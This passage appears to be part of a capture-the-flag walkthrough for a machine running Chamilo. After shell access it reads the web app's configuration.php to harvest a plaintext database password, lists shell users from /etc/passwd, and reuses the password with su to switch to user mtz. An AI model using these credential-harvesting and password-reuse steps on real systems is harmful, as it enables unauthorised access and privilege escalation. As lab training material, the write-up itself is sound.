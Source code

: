 ```
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```

Now we will search the web server’s directory for database credentials.

```
cd /var/www
ls

chamilo  html
```

```
cd chamilo
```

In chamilo's folder, afer navigating into its folders, we find `app/config/configuration.php` contains the database credentials.

```
cat app/config/configuration.php

...etc...

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';

...etc...
```

We found the password `03F6lY3uXAP2bkW8`, which we can try to use with a system user in case it is being re-used.

To get functional system users, we will search for all users with a shell (which normally ends in "sh").

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

There is a user called `mtz`, Let's try to authenticate as `mtz` with the database password.

```
su mtz
Password: 03F6lY3uXAP2bkW8
```
